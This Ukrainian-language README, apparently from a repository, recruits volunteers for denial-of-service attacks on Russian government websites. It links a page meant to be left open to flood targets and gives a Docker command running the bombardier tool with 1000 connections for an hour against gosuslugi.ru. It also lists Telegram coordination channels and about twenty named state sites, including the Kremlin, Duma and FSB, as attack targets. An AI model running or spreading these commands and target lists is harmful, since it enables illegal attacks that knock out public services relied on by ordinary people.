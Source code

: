# Варіант 1
Просто відкрийте і залиште сайт відкритим (**можна і на телефоні**) - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
За можливості увімкніть VPN

# Канали для новин та координації
- https://t.me/+97Y45he5lOI2ZTky
- https://t.me/ddosRussians
- https://t.me/itguildukraine

# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [ProtonVPN](https://protonvpn.com/download) - трохи повільний, безкоштовний
- [Windscribe](https://windscribe.com/download) - 10 Гб безкоштовно
3. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт)  
**Ви можете відкрити декілька вікон терміналу**

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

